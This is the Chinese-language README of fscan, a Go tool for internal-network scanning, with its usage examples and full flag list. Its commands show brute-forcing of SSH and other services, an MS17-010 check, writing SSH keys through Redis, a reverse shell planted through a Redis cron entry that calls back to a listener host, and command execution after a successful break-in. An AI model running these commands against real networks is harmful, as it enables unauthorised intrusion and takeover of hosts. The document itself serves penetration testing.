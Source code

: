 # fscan


一款内网扫描工具，方便一键大保健。  
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写私钥、计划任务反弹shell、读取win网卡信息等。  
趁着最近有空，用go把f-scrack重构了一遍。使用go来编写，也有更好的扩展性及兼容性。  
还在逐步增加功能，欢迎各位师傅提意见。


## why



## usege
简单用法
``` 
go run main.go -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写私钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
```

完整参数
```
Usage of C:\Users\shadow1ng\AppData\Local\Temp\___go_build_main_go__1_.exe:
  -c string
    	exec command (ssh)
  -h string
    	IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -m string
    	Select scan type ,as: -m ssh (default "all")
  -no
    	not to save output log
  -np
    	not to ping
  -o string
    	Outputfile (default "result.txt")
  -p string
    	Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,23,80,135,443,445,1433,1521,3306,5432,6379,7001,8080,8089,9000,9200,11211,27017")
  -pwd string
    	password
  -pwdf string
    	password file
  -rf string
    	redis file to write sshkey file (as: -rf id_rsa.pub) 
  -rs string
    	redis shell to write cron file (as: -rs 127.0.0.1:4444) 
  -t int
    	Thread nums (default 100)
  -time int
    	Set timeout (default 3)
  -user string
    	username
  -userf string
    	username file
```

`fscan.exe -h 192.168.x.x`
![](image/1.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写私钥)`
![](image/2.png)


`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)


`fscan.exe -h 192.168.x.x (ms17010、读取网卡信息)`
![](image/4.png)


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   